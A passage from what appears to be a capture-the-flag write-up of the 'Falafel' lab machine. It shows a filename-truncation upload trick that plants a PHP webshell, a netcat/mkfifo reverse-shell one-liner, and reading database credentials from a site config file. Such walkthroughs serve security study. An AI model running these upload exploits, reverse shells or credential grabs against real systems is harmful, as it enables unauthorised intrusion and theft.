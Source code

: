 
The new name is no longer a png file.

So upload a php webshell that ends in `.php.png` that is just long enough that
the last four characters get truncated:

    
    
    root@kali# URL=$(python -c 'print "http://10.10.15.99:8081/" + "A"*232 + ".php.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep -e "The name is too long" -e shorten -e "New name" -e CMD
            <pre>CMD: cd /var/www/html/uploads/0515-1930_45ed3e0a6a8c22db; wget 'http://10.10.15.99:8081/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'</pre>
            <pre>The name is too long, 240 chars total.
    Trying to shorten...
    New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
    

Test the shell:

    
    
    root@kali# curl http://10.10.10.73/uploads/0515-1930_45ed3e0a6a8c22db/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Webshell –> Shell

I was able to get an interactive shell on Falafel using the nc / pipe
backdoor, `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {}
>/tmp/f`. As I like to script these things, I write a python script to
generate a callback, which is included at the end of this post.

## privesc: www-data -> moshe

There are two users with home directories on the box:

    
    
    www-data@falafel:/var/www/html$ ls /home
    moshe  yossi
    

In the site php files, there’s creds for the database.

    
    
    www-data@falafel:/var/www/html$ cat connection.php
    <?php
       define('DB_SERVER', 'localhost:3306');
       define('DB_USERNAME', 'moshe');
       define('DB_PASSWORD', 'falafelIsReallyTasty');
       define('DB_DATABASE', 'falafel');
       $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
       // Check connection
       if (mysqli_connect_errno())
       {
          echo "Failed to connect to MySQL: " . mysqli_connect_error();
       }
    ?>
    